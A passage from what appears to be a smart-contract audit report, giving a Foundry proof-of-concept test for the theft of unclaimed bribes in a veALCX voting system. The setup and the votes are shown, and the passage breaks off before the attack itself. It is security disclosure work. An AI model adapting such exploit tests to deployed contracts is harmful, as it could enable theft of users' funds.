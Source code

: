 

## Proof of concept
### Test Case (Foundry)

The test can be added to a new file under the current test suite `src/test/VotingPoC.t.sol`, then specify the file name in `FILE` flag under `Makefile` configuration. Run using `make test_file`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract VotingPoCTest is BaseTest {
    address public alice;
    address public bob;

    function setUp() public {
        setupContracts(block.timestamp);

        // Setup Alice and Bob addresses
        alice = vm.addr(uint256(keccak256(abi.encodePacked('Alice'))));
        vm.label(alice, 'Alice');
        bob = vm.addr(uint256(keccak256(abi.encodePacked('Bob'))));
        vm.label(alice, 'Bob');
    }

    function testFreezingTheftOfUnclaimedBribes() public {
        uint256 period = minter.activePeriod();
        hevm.warp(period + 1 days);

        uint256 aliceTokenId = createVeAlcx(alice, TOKEN_1, 1, true);
        uint256 bobTokenId = createVeAlcx(bob, TOKEN_1, 1, true);

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;


        // Reward amount
        uint256 rewardAmount = TOKEN_100K;
        // Notify bribe for reward amount
        createThirdPartyBribe(bribeAddress, bal, rewardAmount);

        // Alice Vote
        hevm.prank(alice);
        voter.vote(aliceTokenId, pools, weights, 0);
        // Bob Vote
        hevm.prank(bob);
        voter.vote(bobTokenId, pools, weights, 0);


        // Just right before the next epoch started
        hevm.warp(period + 2 weeks - 1);
        // Check the total votes of current epoch before inflation
```